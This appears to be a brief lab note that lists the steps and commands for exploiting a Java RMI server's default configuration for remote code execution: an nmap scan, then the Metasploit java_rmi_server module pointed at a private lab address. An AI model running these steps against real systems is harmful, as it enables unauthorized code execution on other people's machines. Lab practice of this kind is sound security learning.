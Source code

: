 
## Aim 

	aim to exploit java rmi server default configuration remote code execution 

## Exploit Chain

	1.nmap search with -sC and -sV flag
	2. search in metasploit for rmiregistry
	3. use the exploit for linux
	4. set parameter like rhost
	5. and exploit


## Commands

	1. nmap -sC 192.168.24.129
	2. msfconsole
	3. search rmiregistry
	4. use exploit/multi/misc/java_rmi_server   
	5. set rhost -ip
	6. run
